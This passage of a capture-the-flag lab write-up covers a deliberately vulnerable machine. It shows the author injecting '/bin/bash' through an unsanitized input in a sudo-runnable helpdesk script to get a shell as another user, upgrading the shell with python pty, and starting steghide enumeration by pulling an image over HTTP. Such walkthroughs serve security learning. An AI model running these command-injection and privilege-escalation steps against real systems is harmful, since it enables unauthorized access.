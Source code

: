 The `$msg 2>/dev/null` is interesting. The line before that one asks for user input and then stores that input in the $msg variable. If I put a command in that variable it will try to run it and then send all errors to /dev/null.

This means I can run the .helpline.sh script with sudo as apaar and when the script asks for input on the second question I can type `/bin/bash`. The line will become `/bin/bash 2>/dev/null`. In other words, I will have shell as apaar. Here is what I ran:

```bash
$ sudo -u apaar ./.helpline.sh 

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: bill
Hello user! I am bill,  Please enter your message: /bin/bash
whoami
apaar
```

I run the following to stablize the shell:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

I can now get the user flag:

```bash
$ cd ~
$ cat local.txt
REDACTED
```

## Root Flag

I was stumped at this point for a bit. I tried running LinPEAS but didn't get anywhere with it.

I finally went back to the /var/www/ directory. There is a files directory in that folder. In the files directory is a file called hacker.php that has these two lines:

```html
<h1 style="background-color:red;">You have reached this far. </h2>
<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
```

I was out of ideas and so I decided to try running steghide on the images in this directory. I tried the /var/www/files/images/hacker-with-laptop_23-2147985341.jpg file first since I haven't had much success with finding hidden things in png files.

To transfer the file onto my attack box I ran the following on the target box:

```bash
$ python3 -m http.server
```

On my attack box I ran the following to download the file:

```bash
$ wget http://target.thm:8000/hacker-with-laptop_23-2147985341.jpg
```
